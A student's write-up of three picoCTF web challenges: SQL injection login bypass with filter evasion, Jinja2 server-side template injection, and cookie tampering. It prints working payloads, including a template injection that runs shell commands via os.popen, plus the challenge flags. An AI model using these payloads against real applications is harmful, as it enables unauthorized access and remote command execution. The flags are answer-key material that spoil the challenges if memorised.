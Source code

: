 # 1. Web Gauntlet

As soon as i opened the challenge  i got links of 2 websites 1 had the login page and the other page had a set of instructions that apparently changed after each round.
### Round 1:`admin'--`

filters: `or`

The `'` character acts a string delimiter and escapes the username string and it allows any other command to be run. Here `--` is a comment, which comments out `AND password=''`. Which means, any password will work.  

### Round 2: `admin'/*`

filters: `or like and = --`

As `--` was filtered out, we can use `/*` as an alternative to comment out the rest of the query .

### Round 3: `admin'/*`

filters: `or and = like > < --`

This injection string functions same as above. 

### Round 4: `adm'||'in/*`

filters: `or and = like > < -- admin`

Here, the word `admin` was blocked, so what I can do is, break it into two parts and concatenate it using the relevant operators. 
`||` is used to concatenate two strings.   

### Round 5: `adm'||'in/*`

filters: `or and = like > < -- admin union`

Same as above 

This is what I got in the `http://shape-facility.picoctf.net:61909/filter.php` after completing all 5 rounds: 

```<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_79a0ddc6}
?>
```

# Flag: `picoCTF{y0u_m4d3_1t_79a0ddc6}`


## 2. SSTI1

 The first thing I did, was opening up the inspector in my firefox window and looking at the network section. 
 In there, I looked at the `GET` request
Through which I could see that the server was running python.
		
 Then looking at one of the hints, I could identify that the attack used here was `Server Side Template Injection`, having no prior knowledge regarding this, I searched up "python server side template injection" on google.
 I landed on a website called "yeswehack.com", and it listed common `SSTI` attacks and the first one for python's `jinja2` which is the default template engine in `Flask`. 
 I sent the first payload given `{{self.__init__.__globals__.__str__()[1786:1789]}}` which actually worked and printed `id` as said on the website.
 I modified the second payload given which was to run a system command to list all the files in the current working directory. The command used was `{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls").read()}}`
  
 So there was a file called `flag` in the same directory, again running the same injection but this time using `cat flag`, I was able to get the flag. `{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("cat flag").read()}}`

## Flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}`



# 3.Cookies


This challenge was rather easier but i feel this is not the right way to do it but anyways, I'll explain my complete thought process, so after clicking on the link I got the following web page opened:


Then I just started trying filling in input, wrote `snickerdoodle` first printed out the following:


Then tried a few more ccokie derivatives trying to get to the right one but all were invalid ,then i decide to click inspect->Application->Cookies
after seeing a table with name written and a number in front of it i double clicked on that bar and edited the value to 0, which brought me back to the original page
after which i figured out that depending on the number contents on my screen would change.
i tried  0,10,20 numbers in this pattern and i found out that by putting 30 i would get cookie name as invalid so i kept trying and at number 18 i found out the contents on my screen revealed the flag



# Flag
`picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}`


